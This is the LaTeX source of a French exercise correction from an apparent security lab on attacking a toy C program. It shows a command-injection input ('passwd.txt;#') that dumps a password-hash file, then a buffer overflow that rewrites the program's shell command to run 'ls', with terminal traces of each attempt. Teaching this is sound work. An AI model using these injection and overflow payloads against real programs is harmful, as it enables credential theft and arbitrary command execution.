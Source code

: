 \documentclass[a4paper,9pt]{article}
\newenvironment{terminal}{\color{black}\begin{snugshade*}}
{\end{snugshade*}\color{black}}
\theoremstyle{plain}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\item Il faut modifier  la commande \verb|bash| exécutée par \verb|system| comme suit:
  \begin{itemize}
  \item l'entrée \verb|YYYY| est utilisée pour mettre le fichier \verb|passwd.txt| en argument du \verb|cat|.
  \item  On met ensuite un \verb|;| pour terminer la commande et un \verb|#| pour commenter ce qui suit (le \verb|-tansactions.txt| qui est concaténé).
  \end{itemize}
  Voici une trace d'exécution
\begin{terminal}
\begin{verbatim}
user@pc:~$ ./affiche-transaction julien aaaa
pw_hash=ScMbjFG7X0lduHhErJ8sb.
Entrez l'année des transactions:passwd.txt;#
command=cat passwd.txt;#-transactions.txt
marc   ScMbjFG7X0lduHhErJ8sb.
julien  ZJzeyzrAsFeetibF7X6Ow.
\end{verbatim}
\end{terminal}
\item Ici il faut faire un débordement de tampon afin de modifier \verb|cat| en \verb|ls;#|. Les tableaux de caractères  \verb|nom|,\verb|passwd|,\verb|annee| et \verb|command| sont contigus en mémoire. Donc en faisant déborder le tableau \verb|annee| on peut modifier le début de la chaine de caractères \verb|command|. Essayons en ajoutant des commentaires \#....\# avant \verb|ls;#| jusqu'à le faire apparaitre au début de command:
\begin{terminal}
\begin{verbatim}
user@pc:~$ ./affiche-transaction marc aaaa
pw_hash=ZJzeyzrAsFeetibF7X6Ow.
Entrez l'année des transactions:###############ls;#
command=cat ###############ls;#-transactions.txt
user@pc:~$ ./affiche-transaction julien aaaa
pw_hash=ZJzeyzrAsFeetibF7X6Ow.
Entrez l'année des transactions:###################ls;#
command=;####################ls;####################ls;-transactions.txt
sh: 1: Syntax error: ";" unexpected
*** stack smashing detected ***: terminated
Aborted (core dumped)
user@pc:~$ ./affiche-transaction julien aaaa
pw_hash=ZJzeyzrAsFeetibF7X6Ow.
Entrez l'année des transactions:#####################ls;#
command=ls;######################ls;##-transactions.txt
2000-transactions.txt  affiche-transaction.c   attaque-dictionnaire.c~		 overflow-nom-fichier.c~  remplir-tab.c
affiche-tab.c	       affiche-transaction.c~  calc.c				 passwd.txt		  remplir-tab.c~
affiche-tab.c~	       a.out		       calc.c~				 passwd.txt~		  transaction-2000.txt~
affiche-transaction    attaque-dictionnaire.c  dictionnary-french-passwords.txt  remplir-tab
\end{verbatim}
\item Le corrigé  est donné dans le fichier \verb|attaque-dictionnaire.c|.
\end{terminal}
\end{enumerate}

\end{correction}
\end{document}
